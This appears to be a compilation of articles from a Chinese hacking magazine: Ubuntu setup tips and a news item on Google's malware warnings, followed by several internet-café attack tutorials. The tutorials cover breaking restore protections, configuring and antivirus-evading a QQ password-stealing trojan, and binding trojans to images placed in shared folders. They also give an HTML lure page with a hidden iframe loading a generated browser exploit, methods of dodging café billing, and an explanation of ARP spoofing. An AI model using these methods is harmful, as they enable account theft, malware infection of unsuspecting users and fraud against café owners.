> 1) 网络安装仅适用于网速较好的用户，Ubuntu 大陆区的服务器可能是架在电信上，所以电信的用户速度会快些，我安装 Kubuntu 的时候用了大约 1.5 小时。
> 2) 如果是使用 ADSL 直接拨号的（不是通过路由器自动拨号的），最好不要尝试网络安装，在进行安装时不能配置 PPPoE。

综上，这两种方法都可以方便地安装 Ubuntu。如果在安装过程中有问题的话，欢迎来《黑客手册》*nix 区讨论，或登录 www.linuxblog.cn 询问。

【文中所涉及的软件已经收录在光盘中。软件如下：Grub for DOS 中的 GRLDR，网络安装需要的 linux 和 initrd.gz，以及一个 menu.lst 的例子】

> **编辑点评：**
> 简单明了的基础教程。想使用 Linux 么？那安装这一关一定要过。不过 Ubuntu 算是个特例，在整个安装过程中没有包括桌面环境、开发工具、多媒体等方面软件的选择，这可能会对大家以后安装其他发行版本造成困惑。灵活地学习、辩证地掌握，才是王道~~马克思说的就是这个意思……

## Ubuntu 基本配置

曹珪

从本文中你可以学到：
- 修改 root 口令的方法；
- 在 Ubuntu 环境下配置网络和更新服务；
- 在 Ubuntu 中软件安装的基本方法。

在 Ubuntu 刚刚安装完成时，这个系统的功能还很有限。不过，Ubuntu 能获得 Linux 最佳桌面并非虚言，我们只需要对 Ubuntu 进行简单的配置，就能让它满足我们最基本的需求：上网、聊天、听歌和看电影。

### 一、修改 root 口令

root 口令在最初是和建立的第一个用户口令一致的，在进入系统后第一件事就是修改 root 口令。

修改方法很简单，打开一个终端（在“应用程序 > 附件”中），输入 sudo passwd root，会要求输入一次用户口令（即安装过程中建立的用户口令），然后会有提示“Enter new UNIX password:”，这时候输入新的口令就可以了，不过要注意的是输入的口令是不会显示的，所以不要以为没有输入成功。输入完毕敲回车，会提示再次输入口令以确认。两次口令一致，就会有“passwd: 已成功更新密码”的提示。这时 root 的新口令就生效了。

注意：小编在这里强调一下 root 口令的重要性，它就像是 Windows 中的 Administrator，如果口令过于简单，就会给入侵者很大的方便。在 SSH（安全 Shell，类似于 Windows 下的终端 telnet，但对通信进行了加密）开启的情况下，破解 root 口令是相对比较简单也比较直接的一种攻击手段了，同时所得丰厚。当然，你可以直接禁止任何远程登录（在“系统 > 系统管理 > 登录窗口”中，选择“远程”标签页，在“样式”中选择“禁止远程登录”，如图 1），这样就安全多了。


图 1 禁止远程登录

### 二、上网

如果 Ubuntu 离开网络，那将是一件十分难过的事情……不是 Ubuntu 难过，是用户难过～因为你要去别的地方上下载 deb 或者 tar.gz 文件，然后再拷贝回来进行安装。如果缺少程序库文件，那就更可怕了……可能跑一次都不够……所以，装上 Ubuntu，不管是在虚拟机还是在硬盘，都要先解决上网的问题。

#### 1. 局域网配置

进入系统后可以在屏幕右上角发现网络连接的标志（“两台电脑”的标记，和 Windows 下的几乎一样）。在图标上右击，选择“属性”，在弹出的菜单中选择“配置”（图 2），勾选“启用此连接”。如果 IP 是动态分配的，比如使用路由器，那么就在“配置”中选择“自动配置 DHCP”；如果是静态的，那么就选择“静态 IP 地址”，并把 IP 地址、子网掩码以及网关填写完整。


图 2 eth0 配置

#### 2. ADSL 拨号

开启一个终端，输入 sudo pppoeconf 就可以对 PPPoE 进行配置了。不过是全英文的，配置的时候要注意。（我是局域网上网，没办法给大家演示了）。

### 三、更新

没的说，能上网了就要先更新系统。不过之前要修改一下源服务器。在终端中执行“sudo gedit /etc/apt/sources.list”，对 APT 的源进行配置。国内常用的服务器地址是 cn99 的，把下面的内容复制到 sources.list 中就可以了。

```text
deb http://ubuntu.cn99.com/ubuntu/ edgy main restricted universe multiverse
deb http://ubuntu.cn99.com/ubuntu/ edgy-updates main restricted universe multiverse
deb http://ubuntu.cn99.com/ubuntu/ edgy-security main restricted universe multiverse
deb http://ubuntu.cn99.com/ubuntu/ edgy-backports main restricted universe multiverse
deb http://ubuntu.cn99.com/ubuntu/ ubuntu-cn/ edgy main restricted universe multiverse
```

然后在终端中执行“sudo apt-get update”和“sudo apt-get upgrade”，APT 会自动完成下载和安装的任务，只是时间问题了。

### 四、安装软件

有了 APT 后，一切都方便了。Ubuntu 的软件库很大，一般的软件都能在库中找到。比如 XMMS、MPlayer，甚至连 Google Earth 都有。想装什么软件只需要在终端中执行“sudo apt-get install software”，把 software 换成想要安装软件的名字就可以了（全部小写），比如“sudo apt-get install mplayer w32codecs”。

不过命令行格式大家都觉得不熟悉，那就来看看图形界面的——新立得软件包管理器（图 3）。


图 3 新立得软件包管理器

单击菜单中“系统 > 系统管理 > 新立得软件包管理器”，它也可以安装软件，而且这里不仅能看见软件包的名字和介绍，还能通过分类和名称、描述进行查找，这样就算不熟悉 Linux 下有哪些软件也可以找到合适的软件了。使用方法很简单，只要在选中的软件包上单击右键，然后选择“标记以安装”，系统就会自动分析还需要解决的依赖性问题并列出相关的软件包，再单击“应用”，系统就会自动完成安装了。多媒体类和 IM 类的软件，在之前《黑客手册》中有过详细的介绍，大家可以翻阅参考。

以上就是对 Ubuntu 进行的最基本的配置，能够满足大家聊天、听歌和看电影、上网等需求。如果有兴趣，可以参阅之前《黑客手册》上 Beryl 的安装，然后自己尝试一下，前提是显卡最起码是独立的。祝大家 Ubuntu 生活愉快。

对了，补充一下，在之前《黑手》中介绍 IM 软件时，Gaim 还不支持 QQ 协议（除了 OpenQ 插件），自从到了 2.0 beta，Gaim 已经开始直接支持 QQ 协议了，所以大家可以在 Gnome 下直接使用 Gaim 与 QQ 进行通讯。

【文中所涉及的软件已经收录在光盘中。软件如下：源地址 sources.list】

> 编辑点评：如题，文章真的是对 Ubuntu 进行了简单的配置，满足最基本的功能是足够了。不过 Ubuntu 的配置和 Debian 类似，那是厚厚的一本书，作者所写的也只是九牛一毛。想要真正像配置 XP 那样熟练地去配置 Ubuntu，还要下大功夫啊。

航船首语：2007 年初，Google 公司推出一项间谍软件警告的试运行服务。今后用户在使用 Google 搜索引擎时，只要搜索结果所链接的网页可能是恶意网站，Google 会弹出一个安全警告对话框，避免用户跌入陷阱。但是这项服务推出以后，引起了一些网站运营者的不满。他们认为，自己的站点被误报了。

星陨新年致语：转眼又一个 0x 年过去了，时间流逝总是会让人觉得很快，重要的是在这一年中我们获得了什么。2006 年对于《手册》来说是重要的一年，这一年我们取得了长足的进步，我们很高兴地看到越来越多的朋友知道《手册》并从《手册》上学习各种知识；也有很多朋友从读者变成了作者，在《手册》上共享他的收获与心得。泡网吧也在大家的支持下茁壮成长，我们会继续坚持下去，为在网吧奋斗的广大黑友提供技术支持。本期泡吧为大家准备了丰富的内容，为你在享受新年大餐的同时准备一份精神盛筵，只是不要吃太撑哦！考完试了，放假了，过年了，轻松咯！

## 夜航船

XApache

### 「Google 的间谍软件网站警报有误」的索赔言论

SDS

Google のスパイウェアサイト警告に対する Web サイト運営者の不満に対し、Google のスタッフが「現在のところ誤報はない」と反論、当面の対策を提案している。

对于 Google 的间谍软件网站警报引起的网站营运者不满，Google 的职员虽然表示“目前没有误报情况”，但还是为他们提出了一些对应的方法。

CIO.com のブログに掲載された、「Google のスパイウェアサイト警告は誤っており、多数の Web サイト管理者が不満を持っている」との書き込みに対し、Google の Web スパムチームのリーダーであるマット・カッツ氏が 1 月 11 日、自身のブログで反論している。

CIO.com 的博客上刊载了一篇“Google 发布网站‘恶意软件’警告有误，大量网站管理者对其感到不满”的文章，作为 Google 的反 Web 垃圾邮件部门负责人，马特·卡茨先生于 1 月 11 日在自己的博客予以反驳。

Google の検索エンジンでは、ユーザーが検索結果から危ないサイトにアクセスしようとすると、警告が表示される仕組みになっている。Google が出す警告は、スパイウェア対策プロジェクト StopBadware.org が「不正ソフトを配布している」と判定したサイトを対象としている。

Google 的搜索过程是：当用户准备在搜索结果页面访问某个被认为含有恶意软件的网站时，将出现一个警告提示。Google 会把该警告发给“阻止恶意软件的机构 StopBadware.org”所判定的网站，并发布如“可能含有恶意软件”这样的标记来警示用户。

カッツ氏は、自分の Web サイトにマルウェアはないと主張している Web サイトを調べてみたものの、「今のところ、誤報（false positive）はない」と反論した。一方、そうしたマルウェア配布がハッキングによるものであるという事情に配慮して、サイト運営者がハッキングの有無を調べられるような手段を示しているという。

尽管卡茨先生试着调查了几个声称自己被冤枉的 Web 站点，但仍然坚持认为“到目前为止没有误报”的说法。另一方面，为防止由于服务器被黑、网站存在漏洞而出现恶意软件的可能性，网站运营者应该使用一些手段来调查自己的站点是否被攻击了。

当面の対応策としてカッツ氏は、Web サイト管理者に対して、自分のサイトに警告が出された場合には、警告ページに表示されるリンクを利用して、StopBadware.org に問い合わせることを勧めている。

目前的发展办法是：如果 Web 站点管理员发现警告在进入自己的网站前被发出，而自己认为是误报，可以利用警告页上显示的链接，向 StopBadware.org 投诉。

## 记一次网吧突破

从本文中你可以学到：
- 使用组策略解除硬盘访问限制的方法；
- CMD 命令 Copy 的一般用法。

最近学校附近的网吧更新了系统，已经经常要在这里上网，自然要了解它的环境以及如何破解，下面是操作的过程。

首先打开“我的电脑”，双击 C 盘，出现如图 1 的错误提示。

根据以往的经验，磁盘不隐藏，但是不被访问，一般是在组策略中进行了限制，所以我随手在“开始”→“运行”中输入了 gpedit.msc，虽然组策略打开了，但是不知道为什么突然又消失了。这是我以前没有遇到过的情况，我以为是自己的输入的问题，输了好多次，都是一闪而过。这时候我想到了编写批处理文件打开组策略，在运行中输入 notepad，同样出现了和上几次一样的现象，这是怎么回事呢？这时候我想通过“MMC”添加一个组策略，再进行设置，以达到访问 C 盘的目的。在运行中输入 MMC，和前面的情况一样，这时候觉得这次更新真够 BT。


图 1 禁止访问 C 盘

这一系列的一闪而过，再加上对 C 盘的默认操作，使我感觉 C 盘中一定具有这次更新的核心软件，所以管理员才会把 C 盘设置成无法访问，因此我们必须进到 C 盘，看一下到底是什么东西！管理员虽然设置不能访问 C 盘，但是他不知道组策略磁盘不能访问有一个特点：在“我的电脑”里无法访问，但是可以在 CMD 下访问。在“运行”中输入 cmd，同样无法打开，看来这次更新还真的 BT 到极点了。

这时候我从网上下载了一个黑客专用记事本，如图 2。

输入 net start server & net share c$=c:\ & net share ipc$，保存为 1.bat，希望通过访问本地计算机的默认共享来达到查看 C 盘的目的，但是怎么也保存不成功。保存到哪个盘，都不存在我刚才建立的 1.bat 文件（小编：net start 是启动一个服务，文中是 server；net share 是开启一个共享；& 符号可以连接两个命令，从左到右执行，不管前面的命令是否执行成功都执行 & 后面的命令）。


图 2 黑客专用记事本

虽然没有成功，但是我们还有一个可喜的地方，就是我们可以打开这个黑客专用记事本，而不是像 notepad、cmd 这样的程序一闪而过。赶快去我的 QQ 硬盘，下载了一个 CMD，运行后真的没有闪掉，如图 3。


兴奋ing，这时候我们使用 copy 命令把 notepad.exe 和 gpedit.msc 都复制到桌面，如图 4。


终于可以打开组策略了，找到“用户配置”→“管理模板”→“Windows 组件”→“Windows 资源管理器”→“防止从我的电脑访问这些驱动器”，出现如图 5 的设置，我们改成“已禁用”就可以啦！


总算可以打开 C 盘了，原来在 update 文件夹下存在一个左轮木马专杀工具，里面还有一个 syspro 的配置文件。我们只要把这个文件复制到桌面，使用刚才复制的记事本打开它，把它修改一下再覆盖原来的文件就可以啦！注意不要把这个专杀程序删除，那样系统会重启，因为软件本身监视自己的运行。现在我们终于明白为什么把 CMD 复制到桌面就可以运行了，因为它所保护的进程只是系统目录中的一些程序，如图 6。


到这里总算成功地把网吧的环境摸清啦！文章没什么技术含量，只是为大家提供一些思路！

> **编辑点评**：注册表、组策略、命令提示符、记事本是网吧的通杀项目，使用其中任何一个程序都可以轻松破解网吧的种种限制。其中组策略的操作要更简单些而功能也十分强大，它是 MMC 控制台程序，可以看成是 MMC 的一个子项目，所以 .msc 为后缀名的程序都是使用 mmc.exe 打开的，它们都存在于 system32 目录下，所以这个目录也是网吧老板和网吧黑客的必争之地。突破网吧限制的方法不只 N 种，总会有 N+1 种的出现。掌握了大部分方法，则没有破不了的网吧！

## 网吧“完美”盗号

d é y

### 从本文中你可以学到：

- 简单破解还原卡和还原精灵；
- 木马文件的两种自启动方法；
- 还原精灵设置。

第一次写文章，如有什么纰漏，还请多多包涵。

### 1、破还原精灵或还原卡

网吧里一般都会有还原精灵或还原卡。这些都是网吧用来保护系统的。如果没有它们的保护，网吧一天重装一次系统都不够。还原精灵一般用还原精灵密码读取器好一些，读出来后就可以转存了。但有一些是读不出来的。还原卡就直接用“硬盘保护卡克星”破，破了也可以转存我们的木马。我在一家网吧用精锐还原精灵密码读取器读出一个还原精灵的密码，如图 1。


然后我又在一家网吧看到了是用还原卡的（小编：一般还原卡在开机时按 Home 或 Ctrl+Home 键进入设置，当然是要密码的），刚好来给我做测试，如图 2。


然后它叫你重启，你就重启吧！

### 2、配置木马

现在的 QQ 木马很多，你也可以使用一些你喜欢的 QQ 木马，这里就用“Qhook”了。设置按你的情况填写，但是，这里不要写下载者选项，因为这里是网吧，不是什么地方，如果把这个也写了，一定有人会找网管说的。配马就简单说一下吧！收信邮箱不要和发信邮箱一样（小编：如果设置一样的话可能被 xsniff 等工具嗅探得到收信邮箱账号和密码），还有就是要测试一下，看收到信没有，如图 3，这个就是我配置好了的马。


### 3、免杀

这是很重要的，我这里只使用一种方法做免杀。这里我用超级加花指令做了免杀，方法：把木马拖进工具去，然后在花指令中随便选一个。可以使用杀毒软件测试一下是否免杀了，以防万一。其实网吧一般都没有去更新杀毒软件的，只要找一个新一点的木马，应该能挂上几个月，如图 4。


### 4、木马的自启动

让我们的木马在 QQ 启动时，我们的木马也在后台启动。有两种方法：

1、让它开机自启动，方法：“开始”菜单→程序→启动，打开后把木马放在这个文件夹里面就可以了。为了不让其它人看到木马文件，我们要把它隐藏一下，如图 5。


2、那就是捆绑了，把正常的文件和木马捆绑在一起，而别人在运行文件时，我们的木马也运行了，如图 6。


### 5、如何不让 QQ 自动升级

因为最近 QQ 的自动升级，升级后也可以查木马了……真对腾讯无语了，它能想到这点，我们就能想到限制它升级，小样看我怎么收拾你。方法：这个升级的程序名是 QQLiveUpdate，只要把自动升级的文件名改了就可以了，这里改成 QQLiveUpdate1，它就没有办法升级了，如图 7。

### 6、木马转存

把前面的事情做好后，现在开始放马了，但在“最近打开的文档”里面会有木马文件的历史记录，所以把它给我清除掉。方法：在任务栏中右击，选择属性，选择“开始”菜单”选项卡，如图 8。


点击“自定义”，选择“高级”选项卡，点击“清除列表”就可以了。现在开始转存木马文件，把还原精灵打开，点转存。5.0 转存方法我讲一下，点击还原精灵指令，然后打开后如图 9。


宿主文件就是我们的正常文件，木马文件就不用说了，下面那三个选项可以根据你的情况填写。


然后点里面的指令下的双击第一个“未设置”，再选择保存资料就可以了。然后把密码输入进去，现在重启一次，看一下可不可以。成功了！现在就可以了，有什么不懂可以找我 QQ360352668。

> [文章中涉及到的工具在光盘中有收录]

编辑点评：我想很多朋友都是从盗号开始接触安全的，但是小编想要提醒的是切不可沉溺其中，那样的行为就应该被 BS 了。这篇文章涉及到了盗号过程中几乎所有应该做的事情，简单易懂，而这些细节在其他黑客活动中也会有所涉及到。盗号没有什么技术含量，而从盗号中获得了 HACKING 的相关知识，我想“盗号”也就完成它的黑客使命了。

## 网吧服务器共享资源的利用与防范

SDS

从本文中你可以学到：
- 在网吧的公共存盘区伪造文件诱使别人中招的两种方法。

网吧为了系统的安全，一般都装有还原卡，为此管理员也会为上网用户在服务器上开辟一个空间，用于存放下载的文件，如图 1。我们完全可以利用这个东西来一次被动攻击。


### 一、制作图片木马进行欺骗

首先准备好一个精美的图片，并且给一个诱人的名字，我们以流感病毒大盗为例，对于 QQ 木马的配置我不想再说很多啦，按照提示操作就可以了，然后运行 exebinder2.5 这个捆绑工具，如图 2。


选择“添加文件”，依次把我们准备好的木马和图片添加进去，在“运行时”选择“隐藏”，因为如果不选择的话，会弹出命令行窗口，这样会引起别人的注意的哦！然后选择“更改图标”，选择你做好的图标，这里我已经做好，直接选择就行了，如图 3。


选择“捆绑”，这样我们的盗 QQ 木马就做好了，然后复制到下载存放区里，等着收 QQ 就可以啦！

### 二、制作网页马进行欺骗

我们还可以制作网页木马，因为在网吧很多人都是看电影的，并且都是极品菜鸟。我们把做好的网马命名为“网吧在线影院”，相信会有很多人去点的。首先打开“IE 通杀 0DAY 生成器”，如图 4。


填写好木马的地址，点生成就会生成一个 CSS 文件和一个 DHTML 文件，我们自己再制作一个 HTML 页，在 `<body></body>` 间，写上如下代码：

```html
<iframe src="d.html" border="0" height="0" width="0"></iframe>
```

然后把做好的文件上传到自己的空间，然后再写一个简单的 HTML 页，代码如下：

```html
<html>
<head>
<SCRIPT language=javascript>
function click() {
if (event.button==2) {
alert('请直接进入看电影')
}
}
document.onmousedown=click
</head>
<body bgcolor="black" text="red"><center>
<a href="http://我们的木马网页">欢迎进入网通影视</a></center>
<a href="http://我们的木马网页">欢迎进入电信影视</a></center>
```

```html
<a href="http://我们的木马网页">欢迎进入网吧在线影视</a></center>
......
</body></html>
```

中间可以加很多名字，但都是映射到我们的网马的，这样我们又可以去收 QQ 了，并且实现不允许右键查看代码。这里只是为大家提供一个思路，大家还可以把 HTML 页做得更容易让别人相信。

## 三、防范

- 1. 以上三种方法主要是针对极品菜鸟，而极品菜鸟在网吧中有很多，才给了我们下手的机会。所以第一条就是多看《黑手》，提高自己的安全意识！对于第一种图片木马，只要在文件夹选项中，把“隐藏文件扩展名”的勾去掉，就会发现它原来是一个 EXE 文件啦。另外我们还可以通过查看它的属性，根据文件的大小来判断。
- 2. 主要是查看源码，虽然我禁止右键查看代码，但是还是可以通过“文件”——“使用记事本编辑”来获取代码，然后下载木马文件进行利用。

写这篇文章的目的，不是为了写这些过程，而是为了让大家知道其实每一个细节性的东西，都可以让我们利用。最近在论坛看到很多关于内网入侵的帖子，我想对大家说，入侵没有固定模式，什么时候漏洞都是死的，但是人是活的，谢谢大家！

[文章中涉及到的工具 ExeBinder 和 IE0DAY 生成器在光盘中有收录]

> **编辑点评：** 使用文件捆绑加伪装图标的方法做隐藏是比较常用的方法，而一个网吧的公共存盘区出现“网吧在线电影”的确会令人怀疑。但不可否认的是仍然会有人中招，这都是人们的好奇心与无法抵制某些表面现象诱惑的祸。从某种意义上讲，这也似乎利用了社会工程学。的确，再强大的计算机系统防御体系也有可能毁在一个管理员的“一时失误”。Mitnick 说“人身防火墙最重要”，确实。

## 网吧之网 —— 网吧通信与安全

星陨石碎

- **从本文中你可以学到：**
- 1. 协议以及 TCP/IP、ARP 协议
- 2. ARP 协议的缺陷以及 ARP 欺骗的原理
- 3. 如何使网吧管理软件客户端摆脱服务端控制
- 4. 如何透过网络协议和端口挖掘网吧存在的漏洞

在上一篇网吧布局中，大家已经了解了大部分网吧的布局方式。前面是从硬件角度考虑的，硬件有实体要更好理解一些！而要实现网络中的计算机通信，软件是必不可少的。上次我们已搭建好了硬件环境，本篇文章我们将讲解一些不可见而又必不可少的网络因素，对网吧的通信原理有个初步了解。通过学习这些原理，我们可以获得一些新的网吧破解方法。现在有一定规模的网吧使用代理服务器做网关的已经不多了，因此我们将以后一种布局为基础进行讲解，没有看过上篇文章的朋友请参看上期杂志。

测试环境：Windows XP Professional SP2

## 一、网络协议与端口

### 1、协议

计算机中的很多名词术语虽然和实际生活中使用的有相似处，但切不可完全照搬着翻译。我们知道网络上存在着很多的设备，不仅仅是计算机，还有路由器、交换机等，而就算是计算机彼此之间也存在着很多的差异，这些差异是一台电脑的硬件配置和系统软件所决定的。两台不同的计算机之间要想通信，必须统一很多东西，协议由此而生。意思就是说所有想要连接到某个网络的计算机或者网络设备必须遵循一定的规则，这个规则就叫作协议，若不遵守则无法通信。协议的产生使各种网络节点间的种种差异掩盖在了协议之下。比如计算机 A 想要和 B、C 通信，而 A 和 B 及 C 都是存在不同程度的差异。使用了协议后，A 就不必为了和 B 通信而使用一种转换方法，和 C 通信再使用一种转换方法了。因为存在差异，传递的数据必须要被转换才可以被对方识别。这样大家明白协议的意思和作用了吧！

#### (1)、TCP/IP 协议

虽然说协议是一种标准，而事实上网络上使用的协议却不只一种。由于不同的协议应用到不同的环境下工作效率是不同的，我们当然会选择高效的协议使用了。说到网络协议就不得不提到 TCP/IP 了，它是目前网络上使用最频繁也是最流行的网络协议。

它包括两部分，即 TCP（Transmission Control Protocol，传输控制协议）和 IP（Internet Protocol，网际协议）。前者保证传输的稳定性以及安全性，它是面向连接的；后者指定要发送到的目的地，是非连接的。TCP/IP 实际是一个协议组，就是说它下面包含有很多的协议，比如 SMTP（Simple Mail Transmission Protocol，简单邮件传输协议）、FTP（File Transfer Protocol，文件传输协议）和大家所熟知的 TELNET。这些不在我们今次的讨论范围内，我们只需要对协议有个初步了解，对 TCP/IP 有个认识就好了。

#### (2)、ARP 协议

在上篇的网吧布局中我们知道，每个网吧客户机都需要安装网卡，目的在于数据的转换。从物理角度看，网卡和网线组成了网络传输的路径。而处在同一个网络中的计算机如果想要与另一台计算机通信，它首先得找到这台计算机的网卡。每个网卡在生产出厂的时候被生产厂商指定了一个地址，这个地址理论上说是唯一的。不同于 IP 地址，这个地址是 48 位的，我们称它为 MAC 地址。我们可以在 CMD 下使用 getmac 命令获得本机的网卡信息，如图 1。

如果你的系统不支持 getmac 命令的话，还可以使用 ipconfig /all 查看 MAC 地址，注意一定要加 /all 参数，如图 2。


从图中我们可以看出 MAC 地址被分隔符分隔成 6 部分，以两个十六进制数字的组合的形式（每部分是 8 位，所以总共是 48 位），计算机就是通过这个地址找到局域网中的另一台计算机的。而遵循 TCP/IP 协议的一组计算机是需要用 IP 地址指定某台计算机的位置的，就是说每台计算机上同时存在 IP 地址和 MAC 地址来标示网络上的自己。这两个地址在遵循 TCP/IP 协议的局域网中建立连接是必不可少的，因此必须进行 IP 地址到 MAC 地址的映射，而这个工作就是 ARP 协议来完成的。

ARP（Address Resolution Protocol），即地址解析协议，它负责把某台主机的 IP 地址映射到 MAC 地址上。我们要想和其他计算机通信，必须把自己和对方的 IP 和 MAC 地址都对应起来。本地信息可以很容易获得，而 ARP 协议又是如何获知要进行通信的计算机的 MAC 地址呢？首先我们得确定对方的 IP 地址，比如 192.168.0.21。我们要访问它的共享的时候，ARP 协议就会寻找这台计算机的 MAC 地址了，寻找的方式为广播。这里的广播很类似我们现实生活中的同名词，即发送数据包到网络中的每一台计算机，告诉它们我在寻找 IP 地址为 192.168.0.21 的计算机，我需要知道它的 MAC 地址，如果你是这台计算机的话请把你的 MAC 地址发给我，这样 ARP 协议就可以找到这台计算机了，并且将在本地的一个“表”中保存这个 IP-MAC 地址的对应关系（专业术语叫作 ARP 协议维护的一张表）。这个表叫作 ARP 缓存表，我们在本机的 CMD 下输入 arp -a 可以查看 ARP 缓存表中已存在的 IP-MAC 地址对应，如图 3。


图 3 ARP 缓存表信息

在开始一个通信的时候，ARP 协议首先在缓存表中寻找是否有要与之通信的计算机的 MAC 地址，有的话直接使用之，否则广播寻找。要注意的是这个缓存表是有生存时间的，即过一段时间后表中的在这段时间内没有使用的记录将会被删除，这个生存时间一般是 60s。使用 ARP 缓存表可以加快网络访问速度，因为这减少了向网络广播数据包的步骤，而这一步从开始到完成是很费时的，即使你感觉很快。

### 2、端口

经过 PY 大哥的端口恶补，很多朋友对端口这个东西有了清晰的认识。呵呵，老太妈的例子深入人心啊！我最初接触端口的时候，它是一个被描述为窗子的东西。一些东西要想进来必须从窗户进入，而当时我就不明白了，不是还有门吗？总之呢，端口就是某个网络应用程序接口，没有口的话数据从哪里出去啊！一个应用程序可以同时开多个端口，而貌似一个端口也可以对应多个应用程序。我们初次接触这些东西，还是以一个程序对应一个端口为主吧，免得东西多了头大~

## 二、网吧环境下协议和端口存在的安全问题

### 1、协议与网吧安全

#### (1)、取消协议摆脱服务端控制

网吧的客户机上都有网吧管理软件的客户端，而在网吧的某台服务器上必定安装有服务端来控制客户端，这大家都是知道的。而这也就是一般的具有网络功能的软件的模型了——两台电脑上分别安装有服务端和客户端，通信就是在它们的“里应外合”的基础上建立起来的，这叫作 C/S 模型，呵呵可不是 CS。其中 C 是 Client 的缩写，意思是客户端，S 是 Server 的缩写，是服务端的意思。不仅仅是网吧管理软件，网吧中的游戏/电影平台绝大部分都是这种模型。也许你在网吧中看电影得首先进入“XX 电影大全”的一个应用程序，那个就是网吧电影平台软件的客户端了，而电影服务器上一定存在一个服务端软件。

前面说过 TCP/IP 是最流行的协议，在网吧中同样如此，很多网吧管理软件和其他一些需要交换信息的软件用的就是 TCP/IP 协议。我们想要摆脱网吧管理软件的束缚，只要把服务端和客户端之间的通信阻断就可以了。看到过网上一些免费上网的方法，就是禁用某个协议就可以了，而原理我前面已经说得很清楚了。对于使用 TCP/IP 通信的管理软件，我们只要把“本地连接”中的 TCP/IP 协议取消就可以了。我们在“网上邻居”图标上点击右键，选择“属性”就进入了“网络连接”了。其他的进入方法：“开始”菜单——“设置”——“网络连接”；双击托盘中的“本地连接”图标。双击“本地连接”就进入了“本地连接 属性”选项卡，如图 4。


图 4 本地连接属性选项卡

在中间我们可以看到当前的连接使用的项目名称，其中最后一项 Internet 协议（TCP/IP）。我这里只有这一个网络协议，如果存在其他网络协议的话，那很有可能网吧管理软件使用的是那些协议。如果你和我一样的话，只要把“Internet 协议（TCP/IP）”前面的勾去掉就可以断开与服务端的连接了，呵呵免费了！对于 PUBWIN4，如果你现在的手卡上仍有余额，服务端仍然会显示你处于正常使用状态，同时正常计费。等你到时间了，由于服务端和客户端无法通信，服务端无法通知客户端客户时间已到，因此也就不会把你 T 出来了，而服务端显示的是你那台是无人使用状态（锁定状态）。呵呵，这时候你就算真的免费了。


图 5 查看 PubwinClient.exe 的 PID

在“本地连接”的属性中我们看到的是“Internet 协议（TCP/IP）”，也就是说 Internet 使用的也是 TCP/IP 协议，因此我们就无法访问 Internet 了。残酷的事实啊！但是我马上有个想法：在 PUBWIN4 的环境下，一旦某台客户端时间到后，服务端锁定客户端，是否再也不监视这台客户机了呢？可惜的是我无法试验，还希望读到这篇文章的朋友去试验了。如果真是这样的话，我们时间到了后，再把 TCP/IP 协议启用不就可以访问 Internet 了吗？

对付使用非 TCP/IP 通信的管理软件来说就要麻烦得多了，只要把它使用的协议取消就可以了。比如万象使用的是 IPX/SPX 协议，把这个协议取消后客户端和服务端断开了连接，而 Internet 照样可以访问，呵呵！

明白了原理后我们就可以自己尝试破解一些其他的网吧管理软件了。除了市面上流行的 PUBWIN 和万象外，我发现很多网吧使用一些不知名的管理软件。虽然它们没有 PUBWIN 等航母级软件功能强大，但知道的人少，被破解的可能性就大大降低，而这并不代表它们是安全的。利用我们上面学到的知识，首先要找到这款管理软件使用的网络协议。客户端程序就在手下，分析客户端就可以了。我们使用命令查看网吧管理软件使用的网络协议，这里以 Pubwin EP 为例。首先要找到 Pubwin EP 的客户端程序的 PID，它的进程名称为 PubwinClient.exe，如图 5。

我们看到 PubwinClient.exe 的 PID 为 3352，记住这个数字。然后打开命令提示符，使用命令 netstat -ano，如图 6。

要注意的是，netstat 的 -o 可选项 WinXP 以前的操作系统是没有的，-o 用来显示某个连接对应进程的 PID。从而我们可以看出 Pubwin EP 客户端使用的协议确实是 TCP，而往下看，我们会发现这个 PID 还对应另外一个协议 UDP（User Datagram Protocol，用户数据报协议），这个协议同样使用 IP 地址找寻网络上的主机，从某种意义上说 UDP 和 TCP 是同一个级别的网络协议。我想 Pubwin EP 使用两个连接应该是为了防止第一个连接失败吧！从图 6 中我们同样可以看到 PubwinClient.exe 使用的端口，这个后面也有用。


图 6 使用 Netstat 命令查找 PubwinClient.exe 使用的协议

#### (2)、ARP 的安全隐患

前面我们对 ARP 协议已经有一个初步的了解了。前面说过当 ARP 缓存表中不存在要与通信的主机的 MAC 地址的话，则在网络中发送一个广播寻找这台主机的 MAC。广播意味着网络中的所有计算机都会接收到这个数据包。比如一个 LAN 中有 A、B、C 3 台计算机，它们的 IP 地址和 MAC 地址分别是：

- A IP: 192.168.0.1 MAC: AA-AA-AA-AA-AA-AA
- B IP: 192.168.0.2 MAC: BB-BB-BB-BB-BB-BB
- C IP: 192.168.0.3 MAC: CC-CC-CC-CC-CC-CC

A 想和 C 通信，但是 A 的 ARP 缓存表中没有 C 的 MAC 地址（当然 A 知道 C 的 IP 地址了），所以它要向网络广播寻找 C 的 MAC 地址。这时候不仅仅 C 收到数据包了，B 也收到了。B 是一个爱恶搞的家伙，于是它伪造了一个回复数据包，包中包含着 C 的 IP 地址和自己的 MAC 地址，即 **192.168.0.3 - BB-BB-BB-BB-BB-BB** 这样的对应，然后发送给 A。这时候 A 收到回复了，以为 C 的 MAC 地址是 BB-BB-BB-BB-BB-BB，于是使用这个 MAC 地址尝试和 C 通信。但是这个 IP-MAC 的对应关系是错误的！因此 A 和 C 也就无法通信了，而这也就是最简单的 ARP 攻击了，我们通常称为 ARP 欺骗。

有的朋友也许会问：那 C 同样也会回复 A 它自己的 MAC 地址啊，A 为什么不认为 C 发过来的才是真的 MAC 地址呢？确实如此，C 也会回复，而让我们再回头看图 3。我们看到最后的 Type 项下是 dynamic，英文好的朋友知道这个单词是动态的意思。前面说过 ARP 缓存表的记录是有生存时间的，表中的记录在没有更新的情况下在一定时间后就会自动清除。而即使表中已存在一个 IP-MAC 的记录，这时候再向这台主机发送一个同样 IP 的含有 MAC 地址的数据包，ARP 缓存表就会更新表中的 MAC 地址为数据包中的 MAC 地址。所以在上面的例子中，只要 B 一直发送带有 192.168.0.3 和 MAC 地址为 BB-BB-BB-BB-BB-BB 的数据包给 A，A 就会一直和 B 通信，而 A 还以为自己是在和 C 通信。

更为糟糕的是更新 ARP 缓存不仅可以使用回复数据包，使用一个请求数据包同样可以达到更新 ARP 缓存的目的。同样是前面的 A、B、C 的例子，首先它们的缓存表中都是空的。A 想和 C 通信，发送了一个广播来找 C 的 MAC 地址。C 接受到了这个请求，发现自己的 ARP 缓存记录中没有 A 的 IP-MAC 记录，于是把 A 的 IP 和 MAC 信息添加到 ARP 缓存中，如图 7。
